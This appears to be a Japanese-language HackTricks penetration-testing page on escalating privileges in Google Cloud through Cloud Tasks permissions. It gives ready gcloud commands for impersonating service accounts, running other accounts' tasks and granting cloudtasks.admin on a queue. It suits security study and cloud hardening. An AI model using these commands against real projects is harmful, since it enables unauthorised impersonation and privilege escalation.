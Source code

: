 # GCP - Cloud Tasks Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、指定されたサービスアカウントのアイデンティティで実行されるタスクを作成することにより、**他のサービスアカウントを偽装**することができます。これにより、**IAMで保護されたCloud RunまたはCloud Functions**サービスに対して**認証されたHTTPリクエストを送信**することが可能になります。
```bash
gcloud tasks create-http-task \
task-$(date '+%Y%m%d%H%M%S') \
--location us-central1 \
--queue <queue_name> \
--url 'https://<service_name>.us-central1.run.app' \
--method POST \
--header 'X-Hello: world' \
--body-content '{"hello":"world"}' \
--oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```
### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

これらの権限を持つ攻撃者は、**サービスアカウントに対する権限がなくても、既存のスケジュールされたタスクを実行**できます。これにより、以前により高い権限を持つサービスアカウントで作成されたタスクを実行することが可能になります。
```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```
このコマンドを実行する主体は、タスクのサービスアカウントに対して **`iam.serviceAccounts.actAs` 権限** を必要としません。しかし、これは既存のタスクを実行することのみを許可し、タスクを作成または変更する能力は付与しません。

### `cloudtasks.queues.setIamPolicy`

この権限を持つ攻撃者は、特定のキューに対して **自分自身または他の主体に Cloud Tasks の役割を付与** することができ、`roles/cloudtasks.admin` に昇格する可能性があります。これにはタスクを作成および実行する能力が含まれます。
```bash
gcloud tasks queues add-iam-policy-binding \
<queue_name> \
--location us-central1 \
--member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
--role roles/cloudtasks.admin
```
これにより、攻撃者は自分が制御する任意のサービスアカウントに対して、キューの完全なCloud Tasks管理権限を付与できます。

## 参考文献

- [Google Cloud Tasks Documentation](https://cloud.google.com/tasks/docs)

{{#include ../../../banners/hacktricks-training.md}}
